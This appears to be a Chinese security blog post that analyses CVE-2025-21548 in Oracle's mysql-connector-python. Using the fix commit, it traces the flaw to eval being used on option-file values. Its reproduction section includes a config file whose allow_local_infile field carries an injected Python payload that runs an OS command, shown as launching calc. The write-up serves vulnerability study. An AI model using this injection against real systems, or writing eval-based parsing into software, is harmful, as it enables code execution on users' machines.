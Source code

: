 #  CVE-2025-21548(mysql客户端RCE)   
原创 珂字辈  珂技知识分享   2025-03-31 18:00  
  
一、	前言  
  
  
中文搜这个漏洞，得出来得结果居然是Oracle MySQL Server 漏洞，但去官网上看通告，发现是mysql的python客户端漏洞  
  
https://www.oracle.com/security-alerts/cpujan2025.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcjgblcicP53Nh4wvGcl9z12ia9qhaLt9Kv20VRSTkyaDmG7Za7BAWx0s6w/640?wx_fmt=png&from=appmsg "")  
  
不像java大家只用官方的mysql-connector-java一样，python中更常用的可能还是PyMySQL。  
  
https://github.com/PyMySQL/  
  
这次出漏洞的客户端是官方的mysql-connector-python，<=9.1.0。   
  
https://github.com/mysql/mysql-connector-python  
  
虽然CVE上的描述比较多也比较宽泛，但官网上没有任何只言片语。  
  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2025-21548  
  
  
此漏洞易于被利用，高权限攻击者可以通过多种协议通过网络访问 MySQL Connectors。成功的攻击需要除攻击者以外的其他人的交互。此漏洞的成功攻击可能导致未经授权地创建、删除或修改对关键数据或所有 MySQL Connectors 可访问数据的访问权限，以及未经授权读取部分 MySQL Connectors 可访问数据的权限，并可能导致 MySQL Connectors 挂起或频繁崩溃  
  
  
二、	diff  
  
  
这种情况只能去diff了，很容易发现。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcjiavg0Siad22H9YAiaGXjFPNwALtJENeXtTMCWQI6wW5bNOe3qFfbOlOYg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcj5kcxuNjM4mN0VZ7LpEfAapgFhiaYVW8zXt4g0woefYBYfGUa4LJnxPQ/640?wx_fmt=png&from=appmsg "")  
  
据此找到commit  
  
https://github.com/mysql/mysql-connector-python/commit/dd9ded0dec35dbba773487c548c336cf742830ab  
  
确定sink点在optionfiles.py，解析配置文件时直接使用了eval，修复方案为literal_eval。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcjF2friahqf3NJeic6T3fD0WYDk97IYfRtm8QgCxahicg7RNz9oqj7Pk7uQ/640?wx_fmt=png&from=appmsg "")  
  
  
三、	复现  
  
  
手动测试一下。  
```
python3 -m pip install --upgrade mysql-connector-python==8.0.33
```  
```
import mysql.connector

opt_file = 'config.ini'
connection = mysql.connector.connect(
    read_default_file=opt_file,
    option_groups=["incorrect_config"]
)
```  
```
[incorrect_config]

user=root
password=mypass
database=cpydata
port=int(3306)
allow_local_infile=__import__('os').system('calc')
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcjZ2LOJphh2HFg2dDM6kzQJnc0lRIxFLmcTn2iaFdhl7ibhKn9zEf4CvJA/640?wx_fmt=png&from=appmsg "")  
  
  
非常简单易懂的漏洞。  
不过看起来跟漏洞描述对不上啊，这是怎么回事？搜mysql-connector-python的历史CVE，大部分都是这种类似的非常宽泛的描述。猜测是一种保护限制的烟雾弹？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcj2ZA15Jvz62W8cylWrhd7jiaBoGk6kgtKzmBEJ9ib5I8adho3yp7jxQcg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75LqcVb6n0KZCXGepRzQcjWGRyLuklRqqYGic52dDnFxV1R7ZxAn7Wqqiah6icqQicENAkU5z5ribgIUg/640?wx_fmt=png&from=appmsg "")  
  
  
  
